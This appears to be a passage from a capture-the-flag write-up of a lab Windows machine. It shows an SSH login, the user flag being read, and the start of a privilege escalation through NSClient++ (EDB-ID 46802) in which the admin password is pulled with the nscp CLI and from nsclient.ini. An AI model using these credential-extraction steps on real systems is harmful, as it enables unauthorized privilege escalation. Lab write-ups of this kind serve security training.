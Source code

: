 [metasploit][msf] automatically opened us a session but with `cmd.exe`. But I prefer
to have a powershell shell.

```
$ ssh nadine@10.10.10.184 powershell.exe
nadine@10.10.10.184's password: 
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\Nadine>
```

Let's get our user flag:

```
PS C:\Users\Nadine> gc Desktop\user.txt
f9dc9b5ab530d6d295219c156662c3c9
```

### Privilege Escalation  through NSClient++: Nadine to NT Authority\SYSTEM

Remember of the hypothesis I made about `NSClient++`. Let's read EDB-ID 46802
again.

We can use the CLI tool to display the password:

```
PS C:\Users\Nadine> cd "C:\Program Files\NSClient++"
PS C:\Program Files\NSClient++> .\nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

By trying to login with the password at https://10.10.10.184:8443/index.html
we are denied.

![](https://i.imgur.com/xOahmka.png)

But if we read the config file `gc "c:\program files\nsclient++\nsclient.ini"`
we can see something.

```ini
# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3

; Undocumented key
verify mode = peer-cert

; Undocumented key
```